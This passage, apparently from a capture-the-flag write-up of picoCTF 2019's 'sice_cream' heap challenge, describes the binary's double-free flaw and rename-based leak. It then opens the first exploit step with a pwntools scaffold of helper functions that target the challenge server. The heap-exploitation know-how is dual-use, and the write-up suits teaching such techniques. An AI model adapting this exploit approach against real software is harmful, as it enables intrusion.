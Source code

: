 * Each allocated chunk is stored in a global array of pointers. This pointer is also at a known address right after the name variable. We can free these pointers, and the pointers themselves are not set to NULL after each free, thus allowing us to do double frees.

* We can "reintroduce" ourselves, and change our name. This functionality, as you will soon see, is a godsend for this challenge. It will read in 0x100 bytes again, then it print out our new name. This is the only form of a "leak" we have, so we have to use this to our advantage.

Let's get onto exploiting now.

#### Step 1: **Unsorted bin leak**

As usual with heap challenges, we must first start out by getting a libc leak. I first added the application logic functions and some helper functions at the top:
```python
#!/usr/bin/env python2

from pwn import *

context.arch = 'amd64'
context.terminal = ['tmux', 'new-window']

BINARY = './sice_cream'
HOST, PORT = '2019shell1.picoctf.com', 38495

elf = ELF(BINARY)
libc = ELF('./libc.so.6')

def debug(breakpoints):
    script = ""
    for bp in breakpoints:
        script += "b *0x%x\n"%(bp)
    gdb.attach(p,gdbscript=script)

# Application logic

def initialize(name):
    p.sendlineafter('> ', name)

def add(size, content):
    p.sendlineafter('> ', '1')
    p.sendlineafter('> ', str(size))
    p.sendafter('> ', content)

def free(idx):
    p.sendlineafter('> ', '2')
    p.sendlineafter('> ', str(idx))

def reintroduce(name):
    p.sendlineafter('> ', '3')
    p.sendafter('> ', name)
    return p.recvuntil('1.')

def start():
    if not args.REMOTE:
        return process(BINARY)
    else:
        return remote(HOST, PORT)

p = start()
if not args.REMOTE and args.GDB:
    debug([])
```

